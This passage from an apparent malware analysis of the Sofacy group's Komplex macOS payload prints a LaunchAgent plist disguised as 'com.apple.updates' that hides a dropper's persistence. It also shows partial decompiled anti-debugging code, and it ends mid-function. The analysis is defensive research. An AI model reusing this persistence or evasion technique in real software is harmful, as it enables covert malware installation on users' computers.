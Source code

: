 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" 
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>Label</key>
	<string>com.apple.updates</string>
	<key>ProgramArguments</key>
	<array>
		<string>/Users/Shared/.local/kextd</string>
	</array>
	<key>KeepAlive</key>
	<false/>
	<key>RunAtLoad</key>
	<true/>
	<key>StandardErrorPath</key>
	<string>/dev/null</string>
	<key>StandardOutPath</key>
	<string>/dev/null</string>
</dict>
</plist>




123456789101112131415161718192021

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"><plist version="1.0"><dict> <key>Label</key> <string>com.apple.updates</string> <key>ProgramArguments</key> <array> <string>/Users/Shared/.local/kextd</string> </array> <key>KeepAlive</key> <false/> <key>RunAtLoad</key> <true/> <key>StandardErrorPath</key> <string>/dev/null</string> <key>StandardOutPath</key> <string>/dev/null</string></dict></plist>






Figure 5 Contents of the com.apple.updates.plist file showing how the dropper achieves persistence
Komplex Payload
The ultimate purpose of the aforementioned components is to install and execute the Komplex payload. The dropper component saves the payload to "/Users/Shared/.local/kextd" (SHA256: 227b7fe495ad9951aebf0aae3c317c1ac526cdd255953f111341b0b11be3bbc5) and ultimately executes the payload. The payload begins by conducting an anti-debugging check to see if it is being debugged before proceeding with executing its main functionality, which can be seen in the “AmIBeingDebugged” function in Figure 6. The “AmIBeingDebugged” function uses the “sysctl” function to check to see if a specific “P_TRACED” flag is set, which signifies that the process is being debugged. A particularly interesting part of this function is that it is very similar to the function provided by Apple to its developers in a guide created in 2004 titled “Detecting the Debugger”. This is not the first time the Sofacy group's malware authors have obtained techniques from publicly available sources, as demonstrated in the use of the Office Test Persistence Method that they obtained from a blog posted in 2014.





int AmIBeingDebugged()() {
    var_8 = **__stack_chk_guard;
    getpid();
    if ((((sysctl(0x1, 0x4, var_2A8, 0x288, 0x0, 0x0) == 0x0 ? 0x1 : 0x0) ^ 0x1) & 0x1 
& 0xff) != 0x0) {
            rax = __assert_rtn("AmIBeingDebugged", 
"/Users/user/Desktop/LoaderWinApi/LoaderWinApi/main.mm", 0x21, "junk == 0");
    }
    else {
            var_2C1 = (0x0 & 0x800) != 0x0 ? 0x1 : 0x0;
            if (**__stack_chk_guard == var_8) {
                    rax = var_2C1 & 0x1 & 0xff;
            }
            else {